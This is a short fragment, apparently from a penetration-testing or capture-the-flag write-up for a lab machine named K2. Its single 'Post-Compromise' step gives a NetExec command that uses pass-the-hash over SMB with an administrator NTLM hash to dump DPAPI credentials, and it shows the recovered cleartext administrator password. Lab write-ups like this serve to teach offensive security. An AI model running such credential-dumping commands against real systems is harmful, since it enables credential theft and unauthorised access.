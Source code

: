 
## Post-Compromise

### DPAPI

Try to dump other credentials through DPAPI

<pre class="language-bash"><code class="lang-bash">nxc smb 10.10.250.241 -u 'administrator' -H '9545b61858c043477c350ae86c37b32f' --dpapi

<strong>K2\Administrator:vz0q$i8b4c
</strong></code></pre>

<figure><img src="../../../../.gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


